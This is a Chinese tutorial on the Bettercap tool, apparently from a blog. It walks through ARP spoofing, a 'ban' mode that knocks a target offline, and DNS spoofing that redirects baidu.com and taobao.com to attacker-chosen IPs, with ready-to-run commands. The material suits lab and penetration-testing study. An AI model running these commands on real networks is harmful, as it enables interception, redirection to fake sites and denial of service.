

# Bettercap

https://blog.csdn.net/qq_36119192/article/details/84582109#DNS%C2%A0%E6%AC%BA%E9%AA%97

## 一些常用模块

```
api.rest：RESTful API模块
```
```
net.recon ：主机发现模块，用于发现局域网内存活的主机，默认是开启的
```
```
arp.spoof：arp欺骗模块
```
```
ble.recon：低功耗蓝牙设备发现模块
```
```
net.sniff : 网络嗅探模块
```
```
dhcp6.spoof：dhcp6欺骗模块(通过伪造DHCP数据包篡改客户端的DNS服务器，因此需要与dns.spoof一并启用)
```
```
dns.spoof：DNS欺骗模块
```
```
events.stream：串流输出模块（就是不断地在终端界面刷出程序的输出，例如arp截获的信息）
```
```
wifi：wifi模块，有deauth攻击（wifi杀手）和创建软ap的功能
```


## ARP欺骗

我们现在用 `bettercap `来进行ARP欺骗，
先看看arp.spoof这个模块怎么用。输入：
```
help  arp.spoof
```

```
arp.spoof  on : 开启ARP欺骗

arp.ban  on ： 开启ARP欺骗，用ban模式，这就意味着目标将不能上网，也就是断网攻击

arp.spoof off ：停止ARP欺骗

arp.ban off :  停止ARP欺骗
```

## 参数：

```
arp.spoof.internal：如果为true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络(默认为false)
```
```
arp.spoof.targets：要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持nmap形式的ip区域
```
```
arp.spoof.whitelist：白名单，就是不欺骗的目标，可以是ip、mac或者别名
```
## set来进行攻击目标的设置
```
set arp.spoof.targets  192.168.10.2,192.168.10.14   #我们设置攻击目标，用逗号分隔。分别欺骗网关(192.168.10.2)和要欺骗的主机(192.168.10.14是我另外一台主机)，这里也可以是一个网段，如：192.168.10-20
```
## GET获取arp的值来进行信息收集
```
get arp.spoof.targets    #获取arp.spoof.targets的值
```
## DNS 欺骗

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

DNS欺骗之前，我们先得进行`ARP欺骗`，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.10.2,192.168.10.14
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 3.3.3.3   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是3.3.3.3
```

## 还有一种方法

我们可以在打开bettercap的目录创建一个文件host，文件中存放这要欺骗的域名和地址，如下

```
1.1.1.1 www.baidu.com
2.2.2.2 www.taobao.com
3.3.3.3 www.mi.com
```
然后我们进行DNS欺骗的时候只需要设置arp.spoof.hosts这个参数即可

## 之前我们得先进行arp欺骗

```
set dns.spoof.hosts host  #设置dns.spoof.hosts里面存放这要欺骗的域名和欺骗后的地址，在bettercap打开的目录下
dns.spoof on  #开启dns欺骗
```


